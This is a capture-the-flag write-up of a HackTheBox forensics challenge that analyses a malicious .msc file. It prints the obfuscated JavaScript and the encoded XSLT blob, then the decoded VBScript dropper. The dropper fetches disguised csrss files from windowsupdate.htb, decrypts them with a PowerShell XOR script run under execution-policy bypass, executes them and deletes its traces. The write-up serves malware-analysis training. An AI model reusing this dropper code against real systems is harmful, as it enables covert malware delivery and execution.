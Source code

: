 ```yaml
---
title: 'Binary Badresources'
issuer: 'HackTheBox'
status: 'Completed'
category: 'Forensics'
difficulty: 'Medium'
date: '2025-07-19'
badge: null
certificateLink: null
tags: ['office documents', 'javascript', 'c#', 'vbs', 'malware-analysis']
---
```


## Description

![alt text](../../assets/images/HTB/Binary-Badresources/image.png)

## Thought process

### Document analysis

Extracting the archive gives us a `.msc` file. A quick Google search revealed what kind of file I was dealing with.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy.png>)

Running `strings` on the file revealed something odd embedded within it.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 2.png>)

The file contains heavily obfuscated JavaScript. I used `https://obf-io.deobfuscate.io/` for deobfuscation, and this is the result:

```javascript
var scopeNamespace = external.Document.ScopeNamespace;
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
external.Document.ActiveView.ActiveScopeNode = mainNode;
docObject.async = false;
docObject.loadXML(unescape("%3C%3Fxml%20version%3D%271%2E0%27%3F%3E%0D%0A%3Cstylesheet%0D%0A%20%20%20%20xmlns%3D%22http%3A%2F%2Fwww%2Ew3%2Eorg%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas%2Dmicrosoft%2Dcom%3Axslt%22%0D%0A%20%20%20%20xmlns%3Auser%3D%22placeholder%22%0D%0A%20%20%20%20version%3D%221%2E0%22%3E%0D%0A%20%20%20%20%3Coutput%20method%3D%22text%22%2F%3E%0D%0A%20%20%20%20%3Cms%3Ascript%20implements%2Dprefix%3D%22user%22%20language%3D%22VBScript%22%3E%0D%0A%20%20%20%20%3C%21%5BCDATA%5B%0D%0ATpHCM%20%3D%20%22%22%3Afor%20i%20%3D%201%20to%203222%3A%20TpHCM%20%3D%20TpHCM%20%2B%20chr%28Asc%28mid%28%22Stxmsr%24I%7Ctpmgmx%0EHmq%24sfnWlipp0%24sfnJWS0%24sfnLXXT%0EHmq%24wxvYVP50%24wxvYVP60%24wxvYVP70%24wxvWls%7BjmpiYVP%0EHmq%24wxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl60%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%0EHmq%24wxvI%7CigyxefpiTexl0%24wxvTs%7BivWlippWgvmtx%0EwxvYVP5%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci%26%0EwxvYVP6%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2hpp%26%0EwxvYVP7%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiYVP%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3%7Berxih2thj%26%0EwxvHs%7BrpsehTexl5%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EwxvHs%7BrpsehTexl6%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EwxvHs%7BrpsehTexl7%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60%7Berxih2thj%26%0EwxvI%7CigyxefpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0E%0EWix%24sfnWlipp%24A%24GviexiSfnigx%2C%26%5BWgvmtx2Wlipp%26%2D%0EWix%24sfnJWS%24A%24GviexiSfnigx%2C%26Wgvmtxmrk2JmpiW%7DwxiqSfnigx%26%2D%0EWix%24sfnLXXT%24A%24GviexiSfnigx%2C%26QW%5CQP62%5CQPLXXT%26%2D%0E%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl5%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP50%24wxvHs%7BrpsehTexl5%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl6%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP60%24wxvHs%7BrpsehTexl6%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl7%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP70%24wxvHs%7BrpsehTexl7%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvWls%7BjmpiTexl%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvWls%7BjmpiYVP0%24wxvWls%7BjmpiTexl%0EIrh%24Mj%0E%0EwxvTs%7BivWlippWgvmtx%24A%24c%0E%26teveq%24%2C%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28JmpiTexl0%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28Oi%7DTexl%26%24%2A%24zfGvPj%24%2A%24c%0E%26%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7D%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28Oi%7DTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28jmpiGsrxirx%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28JmpiTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7DPirkxl%24A%24%28oi%7D2Pirkxl%26%24%2A%24zfGvPj%24%2A%24c%0E%26jsv%24%2C%28m%24A%244%3F%24%28m%241px%24%28jmpiGsrxirx2Pirkxl%3F%24%28m%2F%2F%2D%24%7F%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%28jmpiGsrxirx%5F%28ma%24A%24%28jmpiGsrxirx%5F%28ma%241f%7Csv%24%28oi%7D%5F%28m%24%29%24%28oi%7DPirkxla%26%24%2A%24zfGvPj%24%2A%24c%0E%26%C2%81%26%24%2A%24zfGvPj%24%2A%24c%0E%26%5FW%7Dwxiq2MS2Jmpia%3E%3E%5BvmxiEppF%7Dxiw%2C%28JmpiTexl0%24%28jmpiGsrxirx%2D%26%24%2A%24zfGvPj%0E%0EHmq%24sfnJmpi%0ESr%24Ivvsv%24Viwyqi%24Ri%7Cx%0EWix%24sfnJmpi%24A%24sfnJWS2GviexiXi%7CxJmpi%2C%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%260%24Xvyi%2D%0EMj%24Ivv2Ryqfiv%24%40B%244%24Xlir%0E%24%24%24%24%5BWgvmtx2Igls%24%26Ivvsv%24gviexmrk%24Ts%7BivWlipp%24wgvmtx%24jmpi%3E%24%26%24%2A%24Ivv2Hiwgvmtxmsr%0E%24%24%24%24%5BWgvmtx2Uymx%0EIrh%24Mj%0EsfnJmpi2%5BvmxiPmri%24wxvTs%7BivWlippWgvmtx%0EsfnJmpi2Gpswi%0E%0EHmq%24evvJmpiTexlw%0EevvJmpiTexlw%24A%24Evve%7D%2CwxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%2D%0E%0EHmq%24m%0EJsv%24m%24A%244%24Xs%24YFsyrh%2CevvJmpiTexlw%2D%0E%24%24%24%24Hmq%24mrxVixyvrGshi%0E%24%24%24%24mrxVixyvrGshi%24A%24sfnWlipp2Vyr%2C%26ts%7Bivwlipp%241I%7CigyxmsrTspmg%7D%24F%7Dteww%241Jmpi%24G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%241JmpiTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24Glv%2C78%2D%24%2A%24%26%241Oi%7DTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24wxvHs%7BrpsehTexl6%24%2A%24Glv%2C78%2D0%2440%24Xvyi%2D%0E%24%24%24%24%0E%24%24%24%24Mj%24mrxVixyvrGshi%24%40B%244%24Xlir%0E%24%24%24%24%24%24%24%24%5BWgvmtx2Igls%24%26Ts%7BivWlipp%24wgvmtx%24i%7Cigyxmsr%24jempih%24jsv%24%26%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24%26%24%7Bmxl%24i%7Cmx%24gshi%3E%24%26%24%2A%24mrxVixyvrGshi%0E%24%24%24%24Irh%24Mj%0ERi%7Cx%0E%0EsfnWlipp2Vyr%24wxvI%7CigyxefpiTexl0%2450%24Xvyi%0EsfnWlipp2Vyr%24wxvWls%7BjmpiTexl0%2450%24Xvyi%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%26%0E%0EWyf%24Hs%7BrpsehJmpi%2Cyvp0%24texl%2D%0E%24%24%24%24Hmq%24sfnWxvieq%0E%24%24%24%24Wix%24sfnWxvieq%24A%24GviexiSfnigx%2C%26EHSHF2Wxvieq%26%2D%0E%24%24%24%24sfnLXXT2Stir%24%26KIX%260%24yvp0%24Jepwi%0E%24%24%24%24sfnLXXT2Wirh%0E%24%24%24%24Mj%24sfnLXXT2Wxexyw%24A%24644%24Xlir%0E%24%24%24%24%24%24%24%24sfnWxvieq2Stir%0E%24%24%24%24%24%24%24%24sfnWxvieq2X%7Dti%24A%245%0E%24%24%24%24%24%24%24%24sfnWxvieq2%5Bvmxi%24sfnLXXT2ViwtsrwiFsh%7D%0E%24%24%24%24%24%24%24%24sfnWxvieq2WeziXsJmpi%24texl0%246%0E%24%24%24%24%24%24%24%24sfnWxvieq2Gpswi%0E%24%24%24%24Irh%24Mj%0E%24%24%24%24Wix%24sfnWxvieq%24A%24Rsxlmrk%0EIrh%24Wyf%0E%22%2Ci%2C1%29%29%20%2D%20%285%29%20%2B%20%281%29%29%3ANext%3AExecute%20TpHCM%3A%0D%0A%20%20%20%20%5D%5D%3E%0D%0A%20%20%20%20%3C%2Fms%3Ascript%3E%0D%0A%3C%2Fstylesheet%3E"));
docObject.transformNode(docObject);
```

### Analyzing the encoded blob

At the end of the deobfuscated script, there's a peculiar blob of data that warrants closer inspection. I use the `URL Decode` function on CyberChef to pretty it

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```

The script uses a simple Caesar cipher (subtracting 4 from each character's ASCII value) to hide a VBScript payload. After decoding by adding 4 to each character, the payload reveals:

```vb
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
    
    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```

**What the malware does:**
1. Downloads malicious files from `http://windowsupdate.htb/` (csrss.exe, csrss.dll, csrss.exe.config, wanted.pdf)
2. Saves them to `C:\Users\Public\` disguised as legitimate Windows system files
3. Executes PowerShell scripts with execution policy bypass
4. Cleans up temporary files to hide traces

### Malicious files analysis

I downloaded all the files to investigate further. I decoded all the files using `csrss.dll` and noticed a link to a `.json` file.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 5.png>)

I downloaded the file to examine its contents and discovered that it was an executable.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 6.png>)

I used `dnSpy` to decompile the executable and found a URL decryptor using Base64 and AES CBC.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 7.png>)

The function takes the Base64 string from the code, decodes it to raw bytes, and uses AES CBC with a hardcoded key and IV. The key and IV are at the end of the code.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 8.png>)

I then used CyberChef to decrypt the URL in the code.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 9.png>)

I downloaded the file and got the flag.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 4.png>)
